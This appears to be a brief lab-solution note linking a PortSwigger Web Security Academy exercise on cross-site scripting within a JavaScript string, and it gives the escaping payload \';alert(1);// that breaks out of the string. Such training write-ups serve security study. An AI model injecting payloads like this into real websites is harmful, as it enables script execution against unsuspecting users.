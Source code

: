 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-double-quotes-encoded-single-quotes-escaped

## Payload

```
\';alert(1);//
```
